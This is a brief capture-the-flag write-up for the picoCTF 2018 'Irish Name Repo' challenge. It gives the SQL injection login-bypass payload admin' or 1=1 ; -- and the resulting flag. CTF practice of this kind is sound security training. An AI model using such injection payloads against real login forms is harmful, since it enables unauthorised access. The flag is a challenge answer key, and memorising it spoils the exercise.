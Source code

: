 
# Irish Name Repo

## Q

There is a website running at http://2018shell.picoctf.com:59464 (link). Do you think you can log us in? Try to see if you can login!

## S


SQL injection~

admin' or 1=1 ; --

## A

picoCTF{con4n_r3411y_1snt_1r1sh_d121ca0b}


